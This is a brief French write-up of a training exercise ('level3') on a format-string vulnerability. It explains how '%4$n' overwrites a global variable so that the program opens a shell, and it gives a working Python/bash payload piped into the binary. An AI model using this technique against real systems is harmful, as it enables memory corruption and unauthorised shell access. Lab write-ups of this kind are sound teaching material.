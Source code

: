# level3

Dans `v()`: si `0x804988c == 64` alors on a un shell

[Exploitation du format string](https://www.exploit-db.com/papers/23985)

On veut utiliser le `%n` pour écrire à l'adresse de la variable globale (ici `coucou`) et set sa valeur à `64`

Grâce à `%4$n`, on choisit le 4e paramètre de printf, comme il n'en a pas, il va chercher le 4e pointeur sur la stack, soit dans notre cas, notre input qui est aussi le format.

À cette adresse là il va écrire le nombre de chars de notre format avant `%n`, soit `60 + 4 = 64`:

```bash
(python -c "print '\x8c\x98\x04\x08' + 'a'*60 + '%4\$n'" ; cat) | ./level3
```

